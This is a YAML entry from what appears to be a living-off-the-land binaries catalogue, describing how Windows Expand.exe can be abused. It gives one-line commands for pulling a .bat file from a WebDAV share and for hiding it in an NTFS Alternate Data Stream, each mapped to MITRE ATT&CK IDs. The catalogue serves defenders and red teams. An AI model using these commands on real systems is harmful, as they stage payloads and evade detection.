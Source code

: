 ```yaml
---
name: Expand.exe
description: Binary that expands one or more compressed files
functions:
  download:
    - description: Copies source file to destination.
      code: expand \\webdav\folder\file.bat c:\ADS\file.bat
      mitreid: T1105
      mitrelink: https://attack.mitre.org/wiki/Technique/T1105
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Use to copies the source file to the destination file
  copy:
    - description: Copies source file to destination.
      code: expand c:\ADS\file1.bat c:\ADS\file2.bat
      mitreid: T1105
      mitrelink: https://attack.mitre.org/wiki/Technique/T1105
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Copies files from A to B
  ads:
    - description: Copies source file to destination Alternate Data Stream (ADS)
      code: expand \\webdav\folder\file.bat c:\ADS\file.txt:file.bat
      mitreid: T1096
      mitrelink: https://attack.mitre.org/wiki/Technique/T1096
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Copies files from A to B
resources:
    - resource: https://twitter.com/infosecn1nja/status/986628482858807297
    - resource: https://twitter.com/Oddvarmoe/status/986709068759949319
fullpath:
    - path: C:\Windows\System32\Expand.exe
    - path: C:\Windows\SysWOW64\Expand.exe
detection:
  - IOC: 
acknowledgement:
  - Person: Rahmat Nurfauzi
    Handle: '@infosecn1nja'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

